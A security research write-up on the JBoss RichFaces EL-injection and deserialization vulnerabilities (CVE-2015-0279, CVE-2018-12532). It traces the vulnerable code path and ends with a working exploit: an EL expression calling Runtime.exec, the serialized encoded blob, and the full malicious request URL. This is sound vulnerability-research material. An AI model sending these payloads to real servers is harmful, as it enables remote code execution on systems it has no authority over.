

## CVE-2015-0279

Author: lamnc2

Github: [kiven7299](https://github.com/kiven7299)


### Description

#### CVE-2015-0279

> **JBoss RichFacess before 4.5.4** allows remote attackers to inject expression language (EL) expressions and execute arbitrary Java code via the do parameter
>
> [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2015-0279)


#### CVE-2018-12532

> **JBoss RichFaces 4.5.3 through 4.5.17** allows unauthenticated remote attackers to inject an arbitrary expression language (EL) variable mapper and execute arbitrary Java code via a **MediaOutputResource's resource request**, aka RF-14309.
>
> [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2018-12532)


> Injection of arbitrary EL variable mapper allows to **bypass mitigation of CVE-2015-0279** and thereby remote code execution.
>
> [codewhitesec.blogspot.com](https://codewhitesec.blogspot.com/2018/05/poor-richfaces.html)


#### Conclusion

RichFaces from 4.5.3 to 4.5.17 has a vulnerability in `MediaOutputResource` that allows injecting arbitrary EL variable mapper.


### Find the vulnerable entry point

As stated in CVEs' description, the vulnerability is attempted to be patched in Richfaces4.5.4, so let's make a comparison between the two versions: https://github.com/richfaces/richfaces/compare/4.5.3.Final...richfaces:4.5.4.Final

Look for `MediaOutputResource`:


So the vulnerability is located in `richfaces-a4j:4.5.3:org.richfaces.resource.MediaOutputResource#encode()` method which calls `javax.el.MethodExpression#invoke()` to evaluate EL expression.


### Reach the vulnerable entry point

Refers to RichFaces Showcase for RichFaces 4.5.3.Final ([Github](https://github.com/kiven7299/Stuff/blob/master/RichFaces's%20resource%20handler.pdf))

> **RichFaces: Ajax enabled JSF 2.0 component library**
>
> **Online demo [http://showcase.richfaces.org](http://showcase.richfaces.org/)**
>
> RichFaces showcase is an application created to show **RichFaces components in action.** It contains a set of small use-cases implemented using RichFaces components.
>
> **Snapshot:**
>
> 


It implies that RichFaces Showcase application utilizes the *MediaOutputResource* dynamic resource builder. 

Inspects requests made by functions:


Make 2^nd^ request to locally-built web app ([Source code](https://github.com/kiven7299/Java-Deserialization/blob/master/CVE-2015-0279/vulnerable_app.rar)), see that it reaches the vulnerable entry point.


`contentProducer` is the EL to be evaluated which, as we can see, is set beforehand. Thus, we have to examine the application's workflow to know how `contentProducer` gains its value..

 

#### Examine the workflow

I make a standalone post on this subject: [RichFaces's resource handler]()

At the step of restoring a state of resource, in this case, `MediaOutputResource`:

```java
//org.richfaces.resource.ResourceUtils    
public static void restoreResourceState(FacesContext context, Object resource, Object state) {
        if (state == null) {
            // transient resource hasn't provided any data
            return;
        }

        if (resource instanceof StateHolderResource) {
          ...
        } else if (resource instanceof StateHolder) {
            StateHolder stateHolder = (StateHolder) resource;
            stateHolder.restoreState(context, state);
        }
    }
```

```java
//public class MediaOutputResource extends AbstractUserResource implements StateHolder, CacheableResource 
public void restoreState(FacesContext context, Object stateObject) {
        Object[] state = (Object[])((Object[])stateObject);
        this.setCacheable((Boolean)state[0]);
        this.setContentType((String)state[1]);
        this.userData = UIComponentBase.restoreAttachedState(context, state[2]);
        this.contentProducer = (MethodExpression)UIComponentBase.restoreAttachedState(context, state[3]);
        this.fileName = (String)state[4];
    }
```


Variable `state` gains it value by deserialization in `org.richfaces.resource.ResourceUtils#decodeObjectData()`: 

```java
public static Object decodeObjectData(String encodedData) {
        byte[] objectArray = decodeBytesData(encodedData);

        try {
            ObjectInputStream in = new LookAheadObjectInputStream(new ByteArrayInputStream(objectArray));
            return in.readObject();
        } catch (StreamCorruptedException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.STREAM_CORRUPTED_ERROR), e);
        } catch (IOException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.DESERIALIZE_DATA_INPUT_ERROR), e);
        } catch (ClassNotFoundException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.DATA_CLASS_NOT_FOUND_ERROR), e);
        }

        return null;
    }
```



- `state[3].orig`: EL expression to be evaluated

  

In next step, response (images, videos, tables, …) is made for users by calling, in this case, `MediaOutputResource.decode()` which is the vulnerable entry point.

```java
public void encode(FacesContext facesContext) throws IOException {
        OutputStream outStream = facesContext.getExternalContext().getResponseOutputStream();
        this.contentProducer.invoke(facesContext.getELContext(), new Object[]{outStream, this.userData});
    }
```

`contentProducer` is the EL expression to be evaluated.


#### Conclusion

- Make serialized object of  that:

  ```java
  // * is a must
  Object[5]: java.lang.Object
  	[0]*: Boolean - is cacheable
  	[1]: String - contentType of the response
  	[2]: StateHolderSaver
  		savedState: existed class (existed in application) - used as param to MethodExpression
      [3]*: StateHolderSaver
      	savedState: MethodExpression - EL expression to inject
  					
  ```

- `Deflate` encrypting. Use encrypting functions provided by RichFaces  in `ResourceUtils`

- Payload: `GET /rfRes/org.richfaces.resource.MediaOutputResource.jsf?do=<serialized object>`


### Exploit

#### Craft payload

Makes an web application that gets an EL expression as input and return string representing serialized object. Source code here [Github](https://github.com/kiven7299/Java-Deserialization/blob/master/CVE-2015-0279/payload_generator.rar)


EL expression to execute OS command:

```java
#{request.getClass().getClassLoader().loadClass("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec("calc.exe")}
```

Serialized object:

```java
eAFtUTFrFEEY!VxyhYmQU0GTQggryF0z9wNOGyWYwMaAC0HP6sve596cszNzM7PnJkeCjY1NAikNRLDVyn8hxCLgD7ASC0VSpnL2VrOgdh!fvPfmvfe9-w6N3MDVJ9EQx8gEypStbw4pcd39T4-OmrYtAoBCA0DDGrhco-4qJQjl8ZJ58fnw7EcAF3rQGKPIyaMdzPIMU-oMNaXaE2-VxII9xYQsS1SmlSTpWOzQ0YoSfTIxjsk8!vjhzsHh8VoAQQQXE4HWPsCMHFyZ-uuU!jqxM1ym3Qhmref0pxoOrlUIrjoxGY6Cb-OmoG6hy-9DZVKGGpMBMRJsjdxA9ZcLbcharuRqpsXy1uuoufBm65KPa2Cx8vsf7Ci6Ptfb-!KzrMUXd46r1d6-fBWf9k5uT4t7vgeTmxNDo5ysYym5e2WoVvt8jBT69H4h!FA9hnXLD3PpeEbhFF!ZboVepd5zOVbPqCVzIdqMCkpaYYIiKcewvQPNWqvq7e9r!27z!cnG1283Jvf!XDtw!1JHsAvzWhcOZgZ8wH8BiE7JRg__
```

Final payload:

```java
/rfRes/org.richfaces.resource.MediaOutputResource.jsf?do=eAFtUTFrFEEY!VxyhYmQU0GTQggryF0z9wNOGyWYwMaAC0HP6sve596cszNzM7PnJkeCjY1NAikNRLDVyn8hxCLgD7ASC0VSpnL2VrOgdh!fvPfmvfe9-w6N3MDVJ9EQx8gEypStbw4pcd39T4-OmrYtAoBCA0DDGrhco-4qJQjl8ZJ58fnw7EcAF3rQGKPIyaMdzPIMU-oMNaXaE2-VxII9xYQsS1SmlSTpWOzQ0YoSfTIxjsk8!vjhzsHh8VoAQQQXE4HWPsCMHFyZ-uuU!jqxM1ym3Qhmref0pxoOrlUIrjoxGY6Cb-OmoG6hy-9DZVKGGpMBMRJsjdxA9ZcLbcharuRqpsXy1uuoufBm65KPa2Cx8vsf7Ci6Ptfb-!KzrMUXd46r1d6-fBWf9k5uT4t7vgeTmxNDo5ysYym5e2WoVvt8jBT69H4h!FA9hnXLD3PpeEbhFF!ZboVepd5zOVbPqCVzIdqMCkpaYYIiKcewvQPNWqvq7e9r!27z!cnG1283Jvf!XDtw!1JHsAvzWhcOZgZ8wH8BiE7JRg__
```


#### PoC

Video demo: https://drive.google.com/open?id=1-5JAxk5jDNCmX0eWXFMAiZot62b-WZbf

